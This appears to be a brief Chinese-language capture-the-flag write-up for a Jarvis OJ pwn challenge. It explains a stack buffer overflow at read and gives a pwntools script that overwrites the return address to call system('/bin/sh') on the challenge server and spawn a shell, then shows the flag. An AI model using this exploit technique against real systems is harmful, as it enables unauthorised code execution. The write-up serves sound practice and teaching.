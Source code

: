   在read处溢出，有system函数

  查找有没有/bin/sh

  ![18](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/18.png)

  可以构造system("/bin/sh") 

  填充buf，覆盖ebp，把返回地址改为system的地址，设置system的返回地址，传参给system

  ```
  from pwn import *
  r = remote('pwn2.jarvisoj.com',9878)
  system =p32(0x8048320)
  binsh = p32(0x804a024)
  payload = 'a'*(0x88+4) + system + p32(0) + binsh
  r.sendline(payload)
  r.interactive()
  
  ```

   ![19](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/19.png)

  `CTF{1759d0cbd854c54ffa886cd9df3a3d52}`
